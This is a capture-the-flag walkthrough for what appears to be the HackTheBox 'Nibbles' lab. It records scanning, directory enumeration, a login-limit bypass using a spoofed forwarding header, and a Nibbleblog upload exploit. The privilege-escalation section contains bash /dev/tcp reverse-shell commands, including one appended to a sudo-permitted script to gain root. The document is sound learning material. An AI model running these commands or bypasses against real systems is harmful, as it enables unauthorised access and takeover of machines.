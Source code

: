 ## Scanning
### Initial Scan
```sh
nmap 10.129.157.37 -F -v -oA Logs/Initial 
```
![[Pasted image 20240605190128.png | ]]
### Port Scan
> [!Delayed]
> Took too much time to complete. Was not complete even after I completed the challenge.
### Aggressive Scan
```sh
nmap 10.129.157.37 -p 22,80 -A -T4 -v -oA Logs/AggressiveScan
```
![[Pasted image 20240605190038.png|]]
<br>
---
## Enumeration 
```sh
nmap 10.129.157.37 -sC -sV -p 80 -v -oA Logs/80-HTTPScriptScan
```
![[Pasted image 20240605190756.png|]]

```sh
searchsploit -t Apache 2.4.18 
```
![[Pasted image 20240605191553.png|]]

![[Pasted image 20240605191705.png|]]

![[Pasted image 20240605191745.png|]]

Found a Directory from page source 

![[Pasted image 20240605192440.png|700x350]]
Visited `/nibbleblog` directory. found nothing much in there

```sh
gobuster dir -u http://10.129.157.37 -w /usr/share/wordlists/dirb/common.txt -o ./Logs/80-Gobuster
```
![[Pasted image 20240605192300.png|]]

```sh
gobuster dir -u http://10.129.157.37/nibbleblog -w /usr/share/wordlists/dirb/common.txt -o ./Logs/80-Gobuster_nibbleblog
```

![[Pasted image 20240605192726.png|]]

```url
http://10.129.157.37/nibbleblog/admin/
```
![[Pasted image 20240605193043.png|]]
```url
http://10.129.157.37/nibbleblog/content/

http://10.129.157.37/nibbleblog/content/private/users.xml
http://10.129.157.37/nibbleblog/content/private/config.xml
```
![[Pasted image 20240605193242.png|]]

![[Pasted image 20240605193314.png|]]
![[Pasted image 20240605193406.png|]]
Found some sensitive information like username
> [!Sensitive Information]
>username:  admin@nibbles.com
> mail id: noreply@10.10.10.134

```url
http://10.129.157.37/nibbleblog/languages/
```
![[Pasted image 20240605193604.png|]]

```url
http://10.129.157.37/nibbleblog/plugins/
```
![[Pasted image 20240605193651.png|]]```

```url
http://10.129.157.37/nibbleblog/themes/
```
![[Pasted image 20240605193840.png|]]
```url
http://10.129.157.37/nibbleblog/README
```
![[Pasted image 20240605194021.png|]]
> [! Sensitive Information]
> Nibbleblog Version v4.0.3
> Code Name: Coffee

```sh
searchsploit -t nibbleblog 4.0.3   
```
![[Pasted image 20240605195833.png|]]

```url
http://10.129.157.37/nibbleblog/admin.php
```
![[Pasted image 20240605194204.png|]]
> [! Sensitive information]
> Admin login page found

![[Pasted image 20240605194754.png|]]
Blacklist protection enabled for user brute force
Max 5 failed login attempts allowed

Added `X-Forwarded-By: 127.0.0.1` in request header to bypass waf.
![[Pasted image 20240605195517.png|]]
> [!Credential]
> admin // nibbles

```url
https://www.exploit-db.com/exploits/38489
```
![[Pasted image 20240605200526.png|]]

```sh
https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload/
```
![[Pasted image 20240605200614.png|]]
<br>
---
## Initial Foothold
![[Pasted image 20240605201319.png|]]

![[Pasted image 20240605201950.png|]]

![[Pasted image 20240605202410.png|]]

![[Pasted image 20240605202831.png|]]

![[Pasted image 20240605202857.png|]]

![[Pasted image 20240605202923.png|]]
<br>
---
## Privilege Escalation
![[Pasted image 20240605203108.png|]]

![[Pasted image 20240605203135.png|]]
monitor.sh file had sudo NOPASSWD permission. So we could execute this file with any user without giving the password.
![[Pasted image 20240605204650.png|]]

```sh
nc -nvlp 1337
```
![[Pasted image 20240605205005.png|]]

```sh
bash -c 'bash -i >& /dev/tcp/10.10.14.77/1337 0>&1'
```
![[Pasted image 20240605204807.png|]]

![[Pasted image 20240605205103.png|]]

![[Pasted image 20240605212613.png|]]

```sh
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.77/1234 0>&1'" | tee -a monitor.sh
```
![[Pasted image 20240605212733.png|]]

```sh
sudo -u root /home/nibbler/personal/stuff/monitor.sh
```
![[Pasted image 20240605212953.png|]]

```sh
nc -nvlp 1234
```
![[Pasted image 20240605213109.png|]]
> [!root.txt]
> de5e5d6619862a8aa5b9b212314e0cdd